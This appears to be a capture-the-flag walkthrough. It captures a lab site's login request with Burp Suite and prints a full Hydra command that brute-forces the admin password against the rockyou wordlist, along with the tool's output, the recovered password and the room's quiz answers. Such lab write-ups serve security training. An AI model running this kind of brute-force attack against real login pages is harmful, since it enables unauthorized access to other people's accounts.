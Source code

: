 **Question : Whats the name of the clown displayed on the homepage ?**  
**Answer : Pennywise**  


When we open the menu at the top right of the page, we see there is a login page :  
![](https://i.imgur.com/pyqpPGG.jpg)  

Let's take a look at this login page :  
![](https://i.imgur.com/TkHuyHX.jpg)

We can try to bruteforce it. To do so, we need to find out what type of request is made by 
the login form and what is the name of each fields. We can use [Burp Suite](https://portswigger.net/burp) to do this. 
Let's make a request by entering a random username and a random password and 
capture it with [Burp Suite](https://portswigger.net/burp) :  
![](https://i.imgur.com/wmcPeIM.jpg)  

**Question : What request type is the Windows website login form using ?**  
**Answer : POST**  

## Brute forcing the login page

Now, we can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to try to brute-force this login page using admin as username :  
```
attacker@AttackBox:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.140.141 http-post-form "/Account/login.aspx:__VIEWSTATE=dkPjiL97ZxFNPe2fokQp2iLPTgxB87PbbvfNsixyp0sT1aOeKoJhwb3Q9a7AT1CZPpdxJ5r7fDw3m7yT1W6Hf%2BwRFxd%2FgMDcwGCitmvhYGxFCjA%2FzkUznOkXyVzqAZwkoZn%2Fk0H4pGRuDwlWTLLQBOsRI%2FENQLdmq4xcDtRTiNcLF9Z0&__EVENTVALIDATION=LJf7tcUSDLQkPLsKY50nU7lQmNvFtO4aStKyj3cqDAEp3pg%2B9fPOxQ9gXjFJw5WB9PZMNWWTWnQ7Jwwic0ayGaucd%2FrgRAd5QsMzgf5RxFM%2FGZKSLW9JWJRxewGnj30T8xfSjLtB%2FsFz8lYU6COI8LbeKrG%2BLRWNP%2BhFy6H3F8%2Bho9WP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Se+connecter:F=Failed"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-15 18:50:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.140.141:80/Account/login.aspx:__VIEWSTATE=dkPjiL97ZxFNPe2fokQp2iLPTgxB87PbbvfNsixyp0sT1aOeKoJhwb3Q9a7AT1CZPpdxJ5r7fDw3m7yT1W6Hf%2BwRFxd%2FgMDcwGCitmvhYGxFCjA%2FzkUznOkXyVzqAZwkoZn%2Fk0H4pGRuDwlWTLLQBOsRI%2FENQLdmq4xcDtRTiNcLF9Z0&__EVENTVALIDATION=LJf7tcUSDLQkPLsKY50nU7lQmNvFtO4aStKyj3cqDAEp3pg%2B9fPOxQ9gXjFJw5WB9PZMNWWTWnQ7Jwwic0ayGaucd%2FrgRAd5QsMzgf5RxFM%2FGZKSLW9JWJRxewGnj30T8xfSjLtB%2FsFz8lYU6COI8LbeKrG%2BLRWNP%2BhFy6H3F8%2Bho9WP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Se+connecter:F=Failed
[80][http-post-form] host: 10.10.140.141   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-15 18:51:20
```

**Question : Guess a username, choose a password wordlist and gain credentials to a user account !**  
**Answer : 1qaz2wsx**  

